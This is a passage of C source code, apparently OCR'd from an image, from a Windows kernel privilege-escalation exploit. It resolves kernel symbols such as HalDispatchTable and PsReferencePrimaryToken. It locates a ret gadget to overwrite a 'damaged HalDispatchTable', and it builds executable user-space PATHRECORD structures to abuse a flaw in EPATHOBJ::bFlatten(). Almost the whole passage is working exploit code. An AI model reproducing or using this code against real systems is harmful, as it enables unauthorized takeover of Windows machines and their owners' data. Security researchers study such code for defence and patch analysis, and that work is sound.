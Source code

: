     LogMessage(L_DEBUG, "NtQuerySystemInformation() =&gt; %s () %p",
                        ModuleInfo.Modules[0].FullPathName,
                        ModuleInfo.Modules[0].ImageBase);

    // Lookup some system routines we require.
    KernelHandle                = LoadLibrary(ModuleInfo.Modules[0].FullPathName + ModuleInfo.Modules[0].OffsetToFileName);
    HalDispatchTable            = (ULONG) GetProcAddress(KernelHandle, "HalDispatchTable")           - (ULONG) KernelHandle + (ULONG) ModuleInfo.Modules[0].ImageBase;
    PsInitialSystemProcess      = (ULONG) GetProcAddress(KernelHandle, "PsInitialSystemProcess")     - (ULONG) KernelHandle + (ULONG) ModuleInfo.Modules[0].ImageBase;
    PsReferencePrimaryToken     = (ULONG) GetProcAddress(KernelHandle, "PsReferencePrimaryToken")    - (ULONG) KernelHandle + (ULONG) ModuleInfo.Modules[0].ImageBase;
    PsLookupProcessByProcessId  = (ULONG) GetProcAddress(KernelHandle, "PsLookupProcessByProcessId") - (ULONG) KernelHandle + (ULONG) ModuleInfo.Modules[0].ImageBase;

    // Search for a ret instruction to install in the damaged HalDispatchTable.
    HalQuerySystemInformation   = (ULONG) memchr(KernelHandle, 0xC3, ModuleInfo.Modules[0].ImageSize)
                                - (ULONG) KernelHandle
                                + (ULONG) ModuleInfo.Modules[0].ImageBase;

    LogMessage(L_INFO, "Discovered a ret instruction at %p", HalQuerySystemInformation);

    // Create our PATHRECORD in user space we will get added to the EPATHOBJ
    // pathrecord chain.
    PathRecord = VirtualAlloc(NULL,
                              sizeof *PathRecord,
                              MEM_COMMIT | MEM_RESERVE,
                              PAGE_EXECUTE_READWRITE);

    LogMessage(L_INFO, "Allocated userspace PATHRECORD () %p", PathRecord);

    // You need the PD_BEZIERS flag to enter EPATHOBJ::pprFlattenRec() from
    // EPATHOBJ::bFlatten(). We don't set it so that we can trigger an infinite
    // loop in EPATHOBJ::bFlatten().
    PathRecord-&gt;flags   = 0;
    PathRecord-&gt;next    = PathRecord;
    PathRecord-&gt;prev    = (PPATHRECORD)(0x42424242);

    LogMessage(L_INFO, "  -&gt;next  @ %p", PathRecord-&gt;next);
    LogMessage(L_INFO, "  -&gt;prev  @ %p", PathRecord-&gt;prev);
    LogMessage(L_INFO, "  -&gt;flags @ %u", PathRecord-&gt;flags);

    // Now we need to create a PATHRECORD at an address that is also a valid
    // x86 instruction, because the pointer will be interpreted as a function.
    // I've created a list of candidates in DispatchRedirect.
    LogMessage(L_INFO, "Searching for an available stub address...");

    // I need to map at least two pages to guarantee the whole structure is
    // available.
    while (!VirtualAlloc(*DispatchRedirect &amp; ~(PAGE_SIZE - 1),
                         PAGE_SIZE * 2,
                         MEM_COMMIT | MEM_RESERVE,
                         PAGE_EXECUTE_READWRITE)) {

        LogMessage(L_WARN, "\tVirtualAlloc(%#x) =&gt; %#x",
                            *DispatchRedirect &amp; ~(PAGE_SIZE - 1),
                            GetLastError());
